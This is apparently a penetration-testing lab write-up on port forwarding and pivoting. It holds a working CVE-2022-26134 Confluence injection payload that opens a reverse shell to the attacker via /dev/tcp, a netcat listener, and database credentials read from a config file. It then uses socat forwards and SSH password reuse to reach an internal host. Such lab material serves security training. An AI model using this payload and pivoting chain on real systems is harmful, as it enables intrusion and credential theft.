



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Port Foward

Port forwarding is a technique where a host listens on one port and relays traffic to another destination. It’s commonly used for:

* Allowing access to internal services from external networks.
* Home routers directing specific traffic (e.g. gaming, remote access).
* Attackers bypassing segmentation by routing traffic through a compromised host (pivot point).

## Linux

In this scenario:

* **Attacker (Kali)**: On the WAN.
* **Target Web Server (**`CONFLUENCE01`**)**: Exposed to the WAN and connected to a DMZ.
* **Internal Database (**`PGDATABASE01`**)**: In DMZ, not directly reachable from Kali.

> _A **Wide Area Network (WAN)** represents a large or public network, while a **Demilitarized Zone (DMZ)** acts as a buffer zone between a less trusted network and internal systems. Since Kali can’t directly access the DMZ, we'll need to leverage `CONFLUENCE01`’s dual-network position to reach `PGDATABASE01`._

<figure><figcaption></figcaption></figure>

After exploiting a vulnerable Confluence instance (`CVE-2022-26134`) we gain a reverse shell on `CONFLUENCE01`. and enumerate its position on the network.


```bash
# payload from Kali
$ curl http://192.168.185.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.236/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```



```bash
# reverse shell on Kali
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
...
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)

# network interfaces
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever

# routing information
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.50.254 dev ens192 proto static 
10.4.50.0/24 dev ens224 proto kernel scope link src 10.4.50.63 
10.4.50.0/24 via 10.4.50.254 dev ens224 proto static
192.168.50.0/24 dev ens192 proto kernel scope link src 192.168.50.63
```


Deeper host enumeration reveals exposed database credentials and the target's internal IP address.


```bash
# configuration files
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
... 
```


### Socat

Socat is a powerful command-line utility for bidirectional data transfer between two data channels. In this case, we use it to forward TCP connections from one network interface on a compromised host to a service on a different network that’s otherwise unreachable.


**Recap**

1. We obtained a reverse shell on `CONFLUENCE01` and we can execute commands as the limited `confluence` user.
2. We identified that it has:
   1. A **WAN interface** (`192.168.50.63`) that our Kali machine can reach
   2. A **DMZ interface** (`10.4.50.63`) that can reach `PGDATABASE01` at `10.4.50.215:5432`
3. `CONFLUENCE01` does not have (and we can't install) the tools needed (e.g. `psql`) to access the database server on `PGDATABASE01`.&#x20;


Since we can’t install new software on `CONFLUENCE01` and `PGDATABASE01` isn’t accessible directly from our Kali machine, we can leverage `socat` to create a **TCP port forward**.

* **Listen** on a chosen TCP port (e.g., `2345`) on `CONFLUENCE01`’s WAN-facing interface.
* **Forward** any connections received on this port to `10.4.50.215:5432` on the DMZ side.

> _On `CONFLUENCE01`, we'll start a verbose (`-ddd`) Socat process. It will listen on TCP port `2345` (`TCP-LISTEN:2345`), fork into a new subprocess when it receives a connection (`fork`) instead of dying after a single connection, then forward all traffic it receives to TCP port `5432` on `PGDATABASE01` (`TCP:10.4.50.215:5432`)._


```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```


Once this forward is active:

1. From our Kali machine on the WAN, we connect to `192.168.50.63:2345`.
2. Socat relays this traffic internally from `CONFLUENCE01` to `10.4.50.215:5432`.
3. From our perspective, it’s as though the PostgreSQL service is directly accessible at `192.168.50.63:5433`.

```bash
# from Kali
$ psql -h 192.168.50.63 -p 2345 -U postgres
```

<figure><figcaption></figcaption></figure>

After some more enumeration of the internal network, we'll find `PGDATABASE01` is also running an SSH server, so we can check for **password reuse**. We can kill the original Socat process listening on port `2345` and create a port forward on `CONFLUENCE01` that will allow us to SSH directly from our Kali machine to `PGDATABASE01`.


```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```


```bash
# from Kali
$ ssh database_admin@192.168.50.63 -p2222
...
database_admin@pgdatabase01:~$
```

<figure><figcaption></figcaption></figure>
